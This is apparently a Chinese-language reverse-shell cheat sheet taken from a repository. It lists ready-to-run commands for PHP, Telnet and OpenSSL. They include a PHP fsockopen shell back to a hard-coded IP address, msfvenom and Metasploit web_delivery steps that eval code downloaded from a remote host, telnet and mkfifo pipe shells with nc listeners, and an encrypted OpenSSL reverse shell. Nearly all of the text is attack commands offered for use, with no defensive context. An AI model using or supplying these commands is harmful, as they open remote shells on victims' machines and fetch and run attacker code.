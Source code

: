 ### PHP
- 一行命令反弹shell
```shell
php -r '$sock=fsockopen("47.101.214.85",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Msfvenom生成
```shell
msfvenom -p php/bind_php lport=6666 -f raw > bind_php.php
```
- Web_delivery
```shell
use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 1
msf5 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > exploit –j

php -d allow_url_fopen=true -r "eval(file_get_contents('http://139.155.49.43:8080/RRfKpX', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```

### Telnet
```shell
# 攻击机
nc -lvvp 5555
nc -lvvp 6666

# 目标机
telnet 192.168.1.101 5555 | /bin/bash | telnet 192.168.1.101 6666
```
```shell
# 攻击机
nc -lvvp 6666
# 目标机
rm -f a && mknod a p && telnet 192.168.1.101 6666 0<a | /bin/bash 1>a
rm -f a;mknod a p;telnet 192.168.1.101 6666 0<a | /bin/bash 1>a
```

### OpenSSL
反弹443端口, 加密流量传输
1. 在远程攻击主机上生成密钥文件
`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`
2. 在远程攻击主机上启动监视器
`openssl s_server -quiet -key key.pem -cert cert.pem -port 443`
3. 在目标机上反弹shell
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s`

https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998
